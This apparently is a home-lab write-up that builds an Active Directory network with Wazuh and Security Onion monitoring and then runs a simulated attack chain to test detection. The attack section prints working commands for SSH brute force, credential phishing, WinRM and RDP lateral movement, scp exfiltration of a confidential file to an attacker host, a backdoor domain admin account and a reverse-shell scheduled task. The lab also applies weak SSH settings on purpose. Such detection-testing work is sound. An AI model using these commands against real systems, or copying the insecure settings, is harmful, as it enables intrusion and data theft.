

Enterprise Network Simulation
This setup demonstrates enterprise network simulation with Active Directory, SIEM , and a simulated attack scenario. The environment consists of a domain controller, workstations, servers, security monitoring, and an attacker machine. The network is centered around a Windows Server 2025 as domain controller managing Active Directory for the domain "enter.corp.com".
Network Architecture
10.0.0.0/24
Central server
10.0.0.5
Windows Server
Services:
- Active Directory
- DNS Server
- DHCP Server
- File & Storage
- Web Server
10.0.0.8
Ubuntu
Services:
- Postfix
- Secure Chat - Mailutils
- Winbind ()
Client System
10.0.0.100
Windows 11
Services:
- AD Domain Joined
- Wazuh Agent
- RDP Enabled
10.0.0.101
Ubuntu
Services:
- Winbind
- Wazuh Agent
- SSH Server
Security and testing Systems
10.0.0.10
Ubuntu
Services:
- Wazuh SIEM/XDR
- Agent Management
- Custom Alert Rules
- File Integrity Monitoring
10.0.0.103
Security Onion
Services:
- Network Monitoring
- IDS/IPS
- Packet Capture
- Threat Detection
10.0.0.x
Kali Linux
Tools:
- Nmap
- Hydra
- Apache (Phishing)
- Evil-WinRM
Authentication Model
All machines authenticate through Active Directory, including Linux clients via Winbind integration, providing a unified identity management system across the environment.
Domain Controller Configuration
Initial Network Configuration
First, configure the static IP address for the domain controller:
IP: 10.0.0.5
Subnet mask: 255.255.255.0
Default gateway: 10.0.0.1
Preferred DNS server: 127.0.0.1 (It will be its own DNS server)Active Directory Setup
- In server manager :
- Promote to domain controller, creating a new forest: enter.corp.com
- Set Directory Services Restore Mode (DSRM) password
- Configure default paths and options
click on add roles and feature -> next -> in server role
- select Active Directory Domain Services, DHCP Server, DNS Server, File and Storage Services and Web Server ->
click next until confirmation page then -> click install DNS Configuration
Configure DNS forwarding to ensure proper name resolution:
Server Manager -> Tools -> DNS
Right-click server -> Properties -> Forwarders tab
Add forwarder: 8.8.8.8DHCP Configuration
Server Manager -> Tools -> DHCP
Right-click IPv4 -> New Scope
Name: project-x-scope
IP Range: 10.0.0.100 - 10.0.0.200
Subnet mask: 255.255.255.0
Default Gateway: 10.0.0.1
DNS Server: 10.0.0.5Add Users and Roles
Navigate to Server Manager -> Tools -> Active Directory Users and Computers -> right click on users to add userwindows-client - john doe (user group)
linux-client - jane doe (user group)
email-server - email server (user group)
sec-box - secuser (user group, admin group)
Workstation & Server Configurations
Windows Client Configuration
Configure the Windows 11 Enterprise client:
- Configure static IP: 10.0.0.100/24, DNS pointing to 10.0.0.5
- Join domain:
search -> change workgroup name -> change Domain: enter.corp.com Enter the Credentials: johnd@enter.corp.com
Linux Client Configuration
Configure Ubuntu Desktop client to join Active Directory:
- Configure static IP: 10.0.0.101/24, DNS pointing to 10.0.0.5
- Install required packages:
sudo apt update sudo apt -y install winbind libpam-winbind libnss-winbind krb5-config krb5-user samba-dsdb-modules samba-vfs-modules samba-common-bin adcli packagekit - Configure Samba:
Add the following configuration and edit realm and workgroup :sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.org sudo nano /etc/samba/smb.conf[global] kerberos method = secrets and keytab realm = ENTER.CORP.COM workgroup = ENTER security = ads template shell = /bin/bash winbind enum groups = Yes winbind enum users = Yes winbind separator = + idmap config * : rangesize = 1000000 idmap config * : range = 1000000-19999999 idmap config * : backend = autorid - Configure Name Service Switch:
Add winbind in the end the passwd and group:sudo nano /etc/nsswitch.confpasswd: files systemd winbind group: files systemd winbind - Configure PAM for home directory creation:
Enable "Create home directory on login" PAM profilesudo pam-auth-update - Configure DNS and hosts:
sudo nano /etc/resolv.conf # Add: nameserver 10.0.0.5 - Join domain:
Enter DC Admin passwordsudo net ads join -U Administrator - Restart winbind and verify:
sudo systemctl restart winbind wbinfo -u # to list all domain users
Email Server Configuration
Configure the Ubuntu Server as an email server:
- Set hostname and static IP:
sudo nano /etc/hostname # Change to: smtp.enter.corp.com sudo nano /etc/netplan/00-installer-config.yaml # Configure static IP: 10.0.0.8/24 # DNS: 10.0.0.5, 8.8.8.8 # Gateway: 10.0.0.1 sudo netplan apply sudo reboot - Join domain using the same Winbind configuration as Linux Client
- Install and configure Postfix:
Select "Internet Site" and configure:sudo apt update sudo DEBIAN_PRIORITY=low apt install postfix mailutils s-nailSystem mail name: smtp.enter.corp.com Root recipient: email-server Destinations: smtp.enter.corp.com, localhost.localdomain, localhost Local networks: 127.0.0.0/8 [::ffff:127.0.0.0]/104 [::1]/128 10.0.0.0/24 - Configure Maildir:
sudo postconf -e 'home_mailbox= Maildir/' sudo postconf -e 'virtual_alias_maps= hash:/etc/postfix/virtual' sudo nano /etc/postfix/virtual # Add: email-server.enter.corp.com email-server sudo postmap /etc/postfix/virtual sudo nano /etc/postfix/main.cf # Verify/add: myhostname = smtp.enter.corp.com mydomain = enter.corp.com mydestination = $myhostname, localhost.$mydomain, localhost mynetworks = 127.0.0.0/8 10.0.0.0/24 [::ffff:127.0.0.0]/104 [::1]/128 home_mailbox = Maildir/ virtual_alias_maps = hash:/etc/postfix/virtual sudo systemctl restart postfix sudo ufw allow Postfix - Configure mail client:
echo 'export MAIL=~/Maildir' | sudo tee -a /etc/bash.bashrc | sudo tee -a /etc/profile.d/mail.sh source /etc/profile.d/mail.sh sudo nano /etc/s-nail.rc # Add: set emptystart set folder=Maildir set record=+sent - Configure DNS on DC:
# On DC: Add A record DNS -> Forward Lookup Zones -> enter.corp.com New Host (A) -> Name: smtp, IP: 10.0.0.8 - Setting up secure communication session
- Clone Secure chat tool used to host
encrypted chat sessions:
git clone https://github.com/gauthamsb777/gauthamsb777.git
Security Box Configuration
Configure the Ubuntu Desktop security monitoring system:
- Configure static IP: 10.0.0.10/24, DNS pointing to 10.0.0.5
- Join domain using the same Winbind configuration as Linux Client
- Install Wazuh (SIEM/XDR):
sudo apt install curl curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh && sudo bash ./wazuh-install.sh -a -i
Security Onion Configuration
Configure Security Onion for network monitoring:
- Run post-install setup (after OS installation):
# Select Standalone mode # Hostname: project-x-sec-work # Static IP: 10.0.0.103/24 # Gateway: 10.0.0.1 # DNS: 10.0.0.5, 8.8.8.8 # Search Domain: corp.project-x-dc.com # Installation Type: Standard # Add analyst IP range: 10.0.0.0/24
Security Implementation
Wazuh Agent Deployment
Deploy Wazuh agents to monitor all systems:
Windows (DC & Client)
Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.9.2-1.msi -OutFile $env:tmp\wazuh-agent msiexec.exe /i $env:tmp\wazuh-agent /q WAZUH_MANAGER='10.0.0.10' WAZUH_AGENT_GROUP='default' WAZUH_AGENT_NAME='hostname'
NET START WAZUHLinux Client
sudo wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb sudo WAZUH_MANAGER='10.0.0.10' WAZUH_AGENT_GROUP='default' WAZUH_AGENT_NAME='hostname' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
sudo systemctl daemon-reload
sudo systemctl enable wazuh-agent
sudo systemctl start wazuh-agentAgent Group Configuration
Create and assign agent groups in Wazuh Dashboard:
- Create Linux and Windows groups
- Assign appropriate machines to each group
- Configure log collection for Windows:
<localfile> <location>Security</location> <log_format>eventchannel</log_format> </localfile> <localfile> <location>Application</location> <log_format>eventchannel</log_format> </localfile> - Configure log collection for Linux:
<localfile> <log_format>syslog</log_format> <location>/var/log/auth.log</location> </localfile> <localfile> <log_format>syslog</log_format> <location>/var/log/secure</location> </localfile> <localfile> <log_format>audit</log_format> <location>/var/log/audit/audit.log</location> </localfile>
File Integrity Monitoring
Configure File Integrity Monitoring (FIM) for sensitive files:
<syscheck>
<directories check_all="yes" report_changes="yes" realtime="yes">C:\Users\Administrator\Documents\Operations</directories>
<frequency>60</frequency>
</syscheck>Custom Alert Rules
Configure custom alerts in Wazuh:
Hamburger menu -> alerts -> monitor -> create monitor
- Failed SSH Monitoring:
Name: Multiple Failed SSH Attempts Index: wazuh-alerts-* Time field: @timestampAdd Data filter for better accuracyData filter: "decoder.name" is "sshd" "rule.groups" contains "authencation_failed"
"rule.groups" contains "authencation_failed"
 Trigger condition: when count is ABOVE 2
Trigger condition: when count is ABOVE 2 - WinRM Logon Monitoring:
Index: wazuh-alerts-* Data filter: "data.win.eventdata.logonProcessName" is "4624" "data.win.eventdata.logonProcessName" is "Kerberos" Trigger when count is ABOVE 0 - Sensitive File Access:
# Add custom rule in local_rules.xml <group name="syscheck,"> <rule id="100002" level="10"> <if_sid>550</if_sid> <field name="file">secrets.txt</field> <match>modified</match> <description>File integrity monitoring alert - access to confidential.txt file detected</description> </rule> </group> # Create monitor Name: File Accessed Index: wazuh-alerts-* Data filter: "full.log" contains "confidential.txt" "syscheck.event" is "modified" Trigger when count is ABOVE 0
Testing Detection Capabilites
The following vulnerabilities have been configured:
SSH Weak Configuration
On Email Server and Linux Client:
sudo nano /etc/ssh/sshd_config
# Modify:
PasswordAuthentication yes
PermitRootLogin yes
sudo systemctl restart ssh
sudo passwd root # Set password to "november"Insecure Windows Configuration
On Domain Controller:
local group policy editor -> network -> lanman workstation -> Enable insecure guest logons
Run the following command in powershell :
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters" -Name AllowInsecureGuestAuth -Value 1 -Force
# Enable RDP
Settings -> System -> Remote Desktop -> Toggle OnAttack Simulation & Detection
Attack Chain
Reconnaissance
From the Kali attack machine:
nmap -p1-1000 -Pn -sV 10.0.0.0/24
# Identify email-svr at 10.0.0.8 with SSH open
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
# Should find root/novemberInitial Access & Discovery
ssh root@10.0.0.8
# Password: november
hostname
ip a
apt update && apt install net-tools nmap -y
netstat -tuln
nmap -sV 10.0.0.0/24
# Identify all network hostsPhishing Setup
On Attacker VM:
sudo apt update && sudo apt install apache2 git -y
cd /var/www/html
sudo rm index.html
sudo git clone https://github.com/collinsmc23/projectsecurity-e101 .
sudo touch creds.log
sudo chmod 666 creds.log
sudo systemctl start apache2Send Phishing Email
From the compromised Email Server:
nano email.txt
# Add HTML email content with link to attacker IP
cat email.txt | mail -a "Content-Type: text/html" -s "Important, Verify Password" janed@linux-clientLateral Movement Chain
Movement from email server to Linux client to Windows client to Domain Controller:
Step 1: Linux Client Compromise
# Check captured credentials on Attacker VM
cat /var/www/html/creds.log
janed / password123@
# Move to Linux Client
ssh janed@10.0.0.101
# Explore and discover WinRM on network
nmap -Pn -p 5985,5986 -sV 10.0.0.0/24Step 2: Windows Client Compromise
# From Attacker VM
# Try Administrator with various passwords
echo "Administrator" > users.txt
echo "We123telly@" > pass.txt
nxc winrm 10.0.0.100 -u users.txt -p pass.txt
# WinRM access
evil-winrm -i 10.0.0.100 -u Administrator -p We123telly@
hostname
ipconfig
nltest /dsgetdc: # Identify DC at 10.0.0.5Step 3: Domain Controller Compromise
# From Attacker VM
xfreerdp /v:10.0.0.5 /u:Administrator /p:We123telly@ /d:enter.corp.comData Exfiltration
# On DC via RDP session (Command Prompt)
scp "C:\Users\Administrator\Documents\Operations/confidential.txt" attacker@10.0.0.50:/home/attacker/my_exfil.txtPersistence
The main goal of persistence is to maintain access to the system so attacker creates a backdoor:
# On DC via RDP session
net user corp-user @mysecurepassword1! /add /domain
net localgroup Administrators corp-user /add
net group "Domain Admins" corp-user /add /domain
# Scheduled task for reverse shell
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1" /sc DAILY /st 12:00 /ru SYSTEM /fDetection Results

Key Detection Points
Throughout the attack simulation, the following activities would be detected by our security infrastructure:
- Failed SSH attempts during the brute force attack
- Successful root login to the Email Server
- Anomalous network scanning from compromised hosts
- WinRM authentication events
- Access to sensitive files in the monitored directory
- Creation of new domain admin accounts
- Scheduled task creation for persistence
These alerts would be visible in the Wazuh dashboard and Security Onion interfaces, allowing security personnel to detect and respond to the attack chain.
Conclusion
Key takeways from this project:
- A enterprise domain with Windows and Linux clients bound together using Active directory
- An email server for internal communication
- Security monitoring via Wazuh SIEM and Security Onion
- Using logs and precise filters to accurately and effienciently detect attacks.
- Using secure chat tool to self host secure volatile chat-sessions for secure communication
Security Improvements
In a production environment, the following security measures would be recommended:
- Disable SSH root login and implement key-based authentication
- Implement proper password policies through Group Policy
- Implement Robust File integrity detection system
- Configure more sophisticated alerting with correlation rules
- Implement regular patching and vulnerability scanning
- Deploy application whitelisting on endpoints